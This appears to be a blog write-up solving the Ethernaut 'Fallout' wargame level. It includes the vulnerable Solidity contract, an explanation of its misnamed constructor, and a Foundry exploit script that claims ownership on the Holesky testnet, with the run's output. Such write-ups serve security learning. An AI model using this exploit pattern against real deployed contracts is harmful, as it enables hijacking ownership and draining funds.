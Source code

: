 ```yaml
---
layout: post
title: "Fallout"
tags: blockchain ethernaut foundry
---
```


# Analysis

---
The goal is

1. Claim ownership of the contract below

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

https://docs.soliditylang.org/en/v0.6.0/contracts.html#constructors

<aside>
💡

Prior to version 0.4.22, constructors were defined as functions with the same name as the contract. This syntax was deprecated and is not allowed anymore in version 0.5.0.

</aside>

For some reason, the intended `constructor` code was written as `Fal1out()`, preventing it from acting as a `constructor` and allowing external access, which enables claiming `owner`.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "../src/Fallout.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract FallbackSol is Script {
    Fallout public fallout_ = Fallout(0x28eA66cBFb2900Bea8bb84f058d740ce0Ab751CB);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        fallout_.Fal1out();
        console.log("Contract owner: ", fallout_.owner());

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/FalloutSol.sol --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Script ran successfully.

== Logs ==
  Contract owner:  0x6f5Ad1E6F1a624E4Ad37f0B7D6f100ab1Db29514

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.002095526 gwei

Estimated total gas used for script: 62992

Estimated amount required: 0.000000132001373792 ETH

==========================

##### holesky
✅  [Success] Hash: 0xcaa845bc5fa9ebb3adcb5902c12ffa24c14a609adc31cd0b789bfae23b11c5aa
Block: 3669787
Paid: 0.000000095568239514 ETH (45606 gas * 0.002095519 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000095568239514 ETH (45606 gas * avg 0.002095519 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image complete]({{site.url}}/images/2025-04-17-Fallback/complete.png)